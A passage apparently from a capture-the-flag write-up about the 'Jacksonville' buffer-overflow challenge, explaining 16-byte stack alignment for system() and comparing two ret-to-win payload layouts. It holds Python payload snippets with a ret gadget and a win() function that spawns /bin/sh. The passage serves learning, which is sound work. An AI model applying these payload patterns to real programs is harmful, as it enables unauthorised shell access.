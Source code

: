**For stack alignment!** Modern libc functions (like `system()`) require RSP to be 16-byte aligned.

```
Aligned:     RSP % 16 == 0  ✅
Not aligned: RSP % 16 == 8  ❌
```

Without alignment, `system()` crashes with:
```
movaps XMMWORD PTR [rsp+0x40], xmm0
Segmentation fault (core dumped)
```

### The Two Patterns

**Pattern A: ret_gadget as Return Address (for alignment)**
```python
payload = buffer_fill
payload += p64(any_value)      # Saved RBP
payload += p64(ret_gadget)     # Return address (EXECUTES!)
payload += p64(target)         # Next address
```

Execution: vuln → ret_gadget (executes ret, RSP += 8) → target

**Pattern B: ret_gadget at Saved RBP (Jacksonville's approach)**
```python
payload = buffer_fill
payload += p64(ret_gadget)     # Saved RBP (loaded into RBP, NOT executed)
payload += p64(target)         # Return address (EXECUTES!)
```

Execution: vuln → target (ret_gadget just in RBP register)

### Does Jacksonville Need ret_gadget?

**Short answer: Probably not!**

The provided solutions put `ret_gadget` at the saved RBP location, but this value is **loaded into RBP, not executed as code**. 

Since `win()` doesn't use RBP for anything:
```c
void win(void) {
    system("/bin/sh");  // Doesn't reference RBP at all!
}
```

**Any value at saved RBP should work:**
```python
# All equivalent:
payload += p64(0x40101a)    # ret_gadget (author's choice)
payload += p64(0)           # Zero
payload += p64(0xdeadbeef)  # Any value
```

### How to Know if ret_gadget is Needed?
